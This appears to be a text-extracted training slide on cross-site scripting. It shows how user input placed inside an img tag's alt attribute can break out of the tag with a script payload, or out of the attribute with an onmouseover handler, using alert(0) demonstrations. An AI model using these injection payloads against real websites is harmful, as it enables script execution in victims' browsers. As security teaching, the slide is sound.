

# Injecting into HTML Tag Parameters
Sometimes user input ends up inside tags like:
<img src=“http://example.com/image.jpeg” alt=“[user input]”>
In this case, if you want to script to execute you need to break out of the tag so you can start a new one
Payload: “><script>alert(0)</script>
Injected tag:
<img src=“http://example.com/image.jpeg” alt=““><script>alert(0)</script>”>
<img src=“http://example.com/image.jpeg” alt=““> <script>alert(0)</script>
What if you cant use the “<“ or “>” symbols?
You wont be able to break out of the tag, but you may be able to break out of the parameter
Payload: “ onmouseover=“alert(0)” blah=“
Injected tag:
<img src=“http://example.com/image.jpeg” alt=““ onmouseover=“alert(0)” blah=“”>
<img src=“http://example.com/image.jpeg” alt=““ onmouseover=“alert(0)” blah=“”>